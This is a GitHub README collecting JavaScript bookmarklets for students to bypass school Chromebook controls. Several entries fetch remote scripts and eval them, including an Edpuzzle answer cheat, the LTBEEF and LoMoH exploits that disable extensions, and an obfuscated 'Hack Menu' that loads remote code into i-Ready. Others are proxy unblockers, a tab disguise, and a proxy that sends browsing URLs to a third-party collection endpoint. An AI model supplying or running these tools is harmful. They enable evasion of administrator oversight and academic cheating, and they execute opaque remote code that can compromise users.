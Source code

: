 ## ByePassHub > Exploits > Bookmarklets | updated dec 27
## If you like this, make sure to star it!
**If you need help on creating a bookmarklet**, Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/CreatingBookmarklets.md) or to the CreatingBookmarklets file<br>
**Unblocker and game links**: Go [here](https://github.com/wea-f/ByePassHub/blob/main/mainUnblockers.md) or go to the mainUnblockers.md file. <br>
**Exploits/Bypasses:** Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Exploits%5CBypasses.md)
### IF BOOKMARKLETS DON'T WORK, FOLLOW THESE [INSTRUCTIONS](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Downgrading.md)
---

### This is a collection of bookmarklets<br>
### These can range from disabling extensions, auto clicking, inspect element, flooding your history, and more!
These are from [balls-remover](https://github.com/3kh0/balls-remover) and [Satz n' stuff](https://sites.google.com/site/satznstuff/home/bookmarklets), [this repo](https://github.com/legend7278/Bookmarklets), [ENS](https://sites.google.com/view/exploitsnstuff/bypass-tools/bookmarklets), and [this repo](https://github.com/TheRealMrGamz/Bookmarklets) <br>
Make sure to scroll all the way down for all the bookmarklets! <br>
## What it does | note if needed
## Edpuzzle Cheats credit: [ading2210](https://github.com/ading2210/edpuzzle-answers)
```js
javascript: fetch("https://cdn.jsdelivr.net/gh/ading2210/edpuzzle-answers@latest/script.js").then(r => r.text()).then(r => eval(r))
```
## History Flooder made by BlazerHM
```js
javascript:var num%3Dprompt%28"How many times do you want this page to show up in your history?");done=false;x=window.location.href;for (var i=1; i<=num; i++){history.pushState(0, 0, i==num?x:i.toString());if(i==num){done=true}}if(done===true){alert("History flooding successful!\n"+window.location.href+" should now appear in your history "+num+(num==1?" time.":" times! \n"))}
```
After executing, put the amount of times you want the page to show up, too many crashes chrome.
## LoMoH - disables extensions
```js
javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()
```
## LTBEEF - disables extensions
Before executing, go to ```https://chrome.google.com/webstorex```, if it says 404, it's fine. <br>
If this doesn't work, substitute the `x` for something else, like ```https://chrome.google.com/webstoreIReplacedItRightHere``` <br>
Once on the site, execute one of the two codes below. <br>
Next, switch off the extensions you want to disable <br>
```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
OR
```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
## Tab Disguise
```js
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://www.pngall.com/wp-content/uploads/9/Google-Drive-Logo-Transparent-180x180.png';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);
```
## Ad Blocker
```js
javascript:(function(){    /* Ad-B-Gone: Bookmarklet that removes obnoxious ads from pages */    var selectors = [    /* By ID: */    '#sidebar-wrap', '#advert', '#xrail', '#middle-article-advert-container',    '#sponsored-recommendations', '#around-the-web', '#sponsored-recommendations',    '#taboola-content', '#taboola-below-taboola-native-thumbnails', '#inarticle_wrapper_div',    '#rc-row-container', '#ads', '#at-share-dock', '#at4-share', '#at4-follow', '#right-ads-rail',    'div#ad-interstitial', 'div#advert-article', 'div#ac-lre-player-ph',    /* By Class: */    '.ad', '.avert', '.avert__wrapper', '.middle-banner-ad', '.advertisement',    '.GoogleActiveViewClass', '.advert', '.cns-ads-stage', '.teads-inread', '.ad-banner',    '.ad-anchored', '.js_shelf_ads', '.ad-slot', '.antenna', '.xrail-content',    '.advertisement__leaderboard', '.ad-leaderboard', '.trc_rbox_outer', '.ks-recommended',    '.article-da', 'div.sponsored-stories-component', 'div.addthis-smartlayers',    'div.article-adsponsor', 'div.signin-prompt', 'div.article-bumper', 'div.video-placeholder',    'div.top-ad-container', 'div.header-ad', 'div.ad-unit', 'div.demo-block', 'div.OUTBRAIN',    'div.ob-widget', 'div.nwsrm-wrapper', 'div.announcementBar', 'div.partner-resources-block',    'div.arrow-down', 'div.m-ad', 'div.story-interrupt', 'div.taboola-recommended',    'div.ad-cluster-container', 'div.ctx-sidebar', 'div.incognito-modal', '.OUTBRAIN', '.subscribe-button',    '.ads9', '.leaderboards', '.GoogleActiveViewElement', '.mpu-container', '.ad-300x600', '.tf-ad-block',    '.sidebar-ads-holder-top', '.ads-one', '.FullPageModal__scroller',    '.content-ads-holder', '.widget-area', '.social-buttons', '.ac-player-ph',    /* Other: */    'script', 'iframe', 'video', 'aside#sponsored-recommendations', 'aside[role="banner"]', 'aside',    'amp-ad', 'span[id^=ad_is_]', 'div[class*="indianapolis-optin"]', 'div[id^=google_ads_iframe]',    'div[data-google-query-id]', 'section[data-response]', 'ins.adsbygoogle', 'div[data-google-query-id]',    'div[data-test-id="fullPageSignupModal"]', 'div[data-test-id="giftWrap"]' ];    for(let i in selectors) {        let nodesList = document.querySelectorAll(selectors[i]);        for(let i = 0; i < nodesList.length; i++) {            let el = nodesList[i];            if(el && el.parentNode)                el.parentNode.removeChild(el);        }    }})();
```
## Show Password | In case if you forget your password on the login screen lol
```js
javascript:Array.prototype.slice.call(document.querySelectorAll("input[type='password']")).map(function(el){el.setAttribute('type','text')})
```
## Inspect Element
```js
javascript: javascript:document.body.contentEditable = 'true'; document.designMode='on'; void 0
```
Another inspect element:
```js
javascript:(function()%7B(function() %7Bvar x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fdevconsole%40master%2Fmain.js"%3Bx.onload %3D alert("Loaded Developer Console!")%3Bdocument.head.appendChild(x)%3B%7D)()%7D)()
```
## web browser
```js
javascript:((function()%7Bvar a,b,c;c="https://www.bing.com/",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1333px; height: 768px; right: 10px; top: 10px; border: 5px solid #8834af; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this)
```
## Proxies (Unblockers)
```js
javascript:(function(){var bkmkltscript = document.createElement('script'); bkmkltscript.src = 'https://cdn.jsdelivr.net/gh/proxyhost/bookmarklets/aiobkmklt.js'; document.body.appendChild(bkmkltscript);})();
```
2nd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://nebula.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
3rd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://ultraviolet-node.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
4th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://incognito.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
5th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://website-aio.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
6th (opens in about:blank):
```js
javascript:(function(){var url = prompt("Enter website url for cloaked page \n Made by Exploits N' Stuff"); var win = window.open(); var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; if(url.includes('https://') || url.includes("http://")) {iframe.src = url;}else{iframe.src = "https://" + url;} win.document.body.appendChild(iframe);})();
```
7th:
```js
javascript:(()=>{let e='[1,2]';function t(e){return e.toString(16).padStart(2,'0')}function o(e){let o=new Uint8Array((e||40)/2);return window.crypto.getRandomValues(o),Array.from(o,t).join('')}let n=o(20);function r(e,t){return prompt('[Legend7269s proxy]\n'+e,t)}function a(e){return confirm('[Legend7269s proxy]\n'+e)}function l(e){return alert('[92dev proxy]\n'+e)}function c(){let e=r('Enter the URL to access:');return null===e||''===e.trim()?null:e=new URL((e=e.replace(%27-%27,%27%27)).indexOf(%27http%27)?%27http://%27+e:e)}function i(e,t){fetch(%27https://dev.92spoons.com/api/fakehacks/proxy/collect.php%27,{method:%27POST%27,headers:{%27Content-Type%27:%27application/json%27},body:JSON.stringify({url:e,version:%271.0.0%27,from:window.location.href,sessionRandomId:n,proxy:t}),mode:%27cors%27})}!function t(){let o=c();if(null===o)return;let n=new URL(o);!function t(){let l=r(%27Proxy method to use:\nCurrently available proxies are numbered %27+e+%27.%27,1);null!==l&&(1==l?(i(o,1),window.location.href=%27https://webcache.googleusercontent.com/search?q=cache%3A%27+encodeURIComponent(n)):2==l?(i(o,2),window.location.href=%27https://%27+n.hostname.replace(/\./g,%27-%27)+%27.translate.goog%27+n.pathname+%27?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp%27):(i(o,%27oob%27),a(%27That proxy id is invalid. Please choose a proxy in the range %27+e+%27.\nIf none of the proxies are working for you, you can ask for more at https://github.com/Legend7269/Bookmarklets%27)&&t()))}()}()})();
```
## Calculator | doesn't show in your history
```js
javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()
```
## Dictionary | Highlight words and it shows you the definition, again, doesn't show in your history
```js
javascript:var q=escape(window.getSelection()),i,ii;if(!q){for(i=0;i<frames.length;i++){var fr=frames[i];try{q=escape(fr.getSelection())}catch(e){};if(q)break;else{for(ii=0;ii<fr.frames.length;ii++){try{q=escape(fr.frames[ii].getSelection())}catch(e){};if(q)break;}}}}if(!q)void(q=prompt('Enter word to define%3A',''));if(q)void(location.href='http://www.dictionary.com/cgi-bin/dict.pl?term=%27+q);```
```
## Font Finder 
```js
javascript:(function(){var d=document,s=d.createElement('scr'+'ipt'),b=d.body,l=d.location;s.setAttribute('src','http://chengyinliu.com/wf.js?o='+encodeURIComponent(l.href)+'&t='+(new Date().getTime()));b.appendChild(s)})();
```
## Unblocked Youtube
```js
javascript:(function () {if (window.location.toString().includes('www.youtube.com/watch?v%27)) { window.open(%27https://www.youtube-nocookie.com/embed/%27 + window.location.toString().split(%27=%27)[1]) }})()
```
## Hack Menu
```js
javascript:function _0x54f5(_0x4c9444,_0x4ac2af){const _0x17ddb2=_0x380f();return _0x54f5=function(_0x19dcc8,_0x9a0e40){_0x19dcc8=_0x19dcc8-0x8e;let _0x227425=_0x17ddb2[_0x19dcc8];return _0x227425;},_0x54f5(_0x4c9444,_0x4ac2af);}function _0x380f(){const _0x378644=['4171185PbwjuA','return\x20(function()\x20','search','5022212nNDxnN','{}.constructor(\x22return\x20this\x22)(\x20)','iframe','prototype','log','error','(((.+)+)+)+$','console','https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js','#U3Yq73','appendChild','18370weTWYU','201365CDUwAl','apply','10kSarUU','bind','710569iOGDqM','__proto__','contentWindow','2BdVBzH','display','21QJQsgN','none','3587043RPUKBC','style','3001304NoJSZJ','trace','catch','toString','warn','table','U3Yq73','66qdZbUl','get','https://login.i-ready.com/','querySelector','2508jetZRn','fetch','constructor','then','exception','info'];_0x380f=function(){return%20_0x378644;};return%20_0x380f();}const%20_0xadefc0=_0x54f5;(function(_0x507ca9,_0x365979){const%20_0x2a1e1a=_0x54f5,_0x105b91=_0x507ca9();while(!![]){try{const%20_0x43c327=parseInt(_0x2a1e1a(0xaa))/0x1+-parseInt(_0x2a1e1a(0xad))/0x2*(parseInt(_0x2a1e1a(0xb1))/0x3)+parseInt(_0x2a1e1a(0x9a))/0x4+-parseInt(_0x2a1e1a(0xa6))/0x5*(parseInt(_0x2a1e1a(0xba))/0x6)+-parseInt(_0x2a1e1a(0xaf))/0x7*(-parseInt(_0x2a1e1a(0xb3))/0x8)+parseInt(_0x2a1e1a(0x97))/0x9*(-parseInt(_0x2a1e1a(0xa8))/0xa)+parseInt(_0x2a1e1a(0xa5))/0xb*(-parseInt(_0x2a1e1a(0x91))/0xc);if(_0x43c327===_0x365979)break;else%20_0x105b91['push'](_0x105b91['shift']());}catch(_0x5c4471){_0x105b91['push'](_0x105b91['shift']());}}}(_0x380f,0x9c5b0));const%20_0x3d141d=(function(){let%20_0x3b4fcd=!![];return%20function(_0x2843ca,_0x598a6a){const%20_0x228da5=_0x3b4fcd?function(){if(_0x598a6a){const%20_0x1eae74=_0x598a6a['apply'](_0x2843ca,arguments);return%20_0x598a6a=null,_0x1eae74;}}:function(){};return%20_0x3b4fcd=![],_0x228da5;};}()),_0x108e71=_0x3d141d(this,function(){const%20_0x3001d5=_0x54f5;return%20_0x108e71[_0x3001d5(0xb6)]()['search']('(((.+)+)+)+$')[_0x3001d5(0xb6)]()[_0x3001d5(0x93)](_0x108e71)[_0x3001d5(0x99)](_0x3001d5(0xa0));});_0x108e71();const%20_0x9a0e40=(function(){let%20_0x19a019=!![];return%20function(_0x122e62,_0x48c927){const%20_0x16892c=_0x19a019?function(){const%20_0x3707ca=_0x54f5;if(_0x48c927){const%20_0x6eb7c3=_0x48c927[_0x3707ca(0xa7)](_0x122e62,arguments);return%20_0x48c927=null,_0x6eb7c3;}}:function(){};return%20_0x19a019=![],_0x16892c;};}()),_0x19dcc8=_0x9a0e40(this,function(){const%20_0x4c4646=_0x54f5;let%20_0x5844cb;try{const%20_0x565505=Function(_0x4c4646(0x98)+_0x4c4646(0x9b)+');');_0x5844cb=_0x565505();}catch(_0x404f45){_0x5844cb=window;}const%20_0x39ccf2=_0x5844cb[_0x4c4646(0xa1)]=_0x5844cb[_0x4c4646(0xa1)]||{},_0x16d310=[_0x4c4646(0x9e),_0x4c4646(0xb7),_0x4c4646(0x96),_0x4c4646(0x9f),_0x4c4646(0x95),_0x4c4646(0xb8),_0x4c4646(0xb4)];for(let%20_0xdc9bb5=0x0;_0xdc9bb5%3C_0x16d310['length'];_0xdc9bb5++){const%20_0x12b77a=_0x9a0e40[_0x4c4646(0x93)][_0x4c4646(0x9d)][_0x4c4646(0xa9)](_0x9a0e40),_0x5b8d1a=_0x16d310[_0xdc9bb5],_0x56dd77=_0x39ccf2[_0x5b8d1a]||_0x12b77a;_0x12b77a[_0x4c4646(0xab)]=_0x9a0e40[_0x4c4646(0xa9)](_0x9a0e40),_0x12b77a[_0x4c4646(0xb6)]=_0x56dd77[_0x4c4646(0xb6)]['bind'](_0x56dd77),_0x39ccf2[_0x5b8d1a]=_0x12b77a;}});_0x19dcc8();try{if(document[_0xadefc0(0x90)](_0xadefc0(0xa3))===null){let%20iframe=document['createElement'](_0xadefc0(0x9c));iframe['src']=_0xadefc0(0x8f),iframe['id']=_0xadefc0(0xb9),iframe[_0xadefc0(0xb2)][_0xadefc0(0xae)]=_0xadefc0(0xb0),document['body'][_0xadefc0(0xa4)](iframe),iframe['onload']=()=%3E{const%20_0x5777e2=_0xadefc0;window[_0x5777e2(0x8e)]=async(_0x2a1cca,_0x441e01)=%3E{return%20new%20Promise((_0x221243,_0x497907)=%3E{const%20_0x3511cd=_0x54f5;U3Yq73[_0x3511cd(0xac)][_0x3511cd(0x92)](_0x2a1cca,_0x441e01)[_0x3511cd(0x94)](_0x542415=%3E{_0x221243(_0x542415);})[_0x3511cd(0xb5)](_0x28799b=%3E{_0x497907(_0x28799b);});});},get('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js')[_0x5777e2(0x94)](_0x230289=%3E_0x230289['text']())['then'](_0xd96b0c=%3Eeval(_0xd96b0c))['catch'](_0x30a455=%3Ealert(_0x30a455));};}else%20get(_0xadefc0(0xa2))[_0xadefc0(0x94)](_0x344e55=%3E_0x344e55['text']())[_0xadefc0(0x94)](_0x21ad45=%3Eeval(_0x21ad45))[_0xadefc0(0xb5)](_0x7c3551=%3Ealert(_0x7c3551));}catch(_0x859f92){alert('Error\x20while\x20loading\x20nullify.\x20This\x20could\x20be\x20because\x20you\x20are\x20not\x20on\x20iReady\x20or\x20because\x20of\x20a\x20patch');}
```
## Close Active Bookmarklets
```js
javascript:var element = document.getElementById("rusic-modal"); element.parentNode.removeChild(element);
```
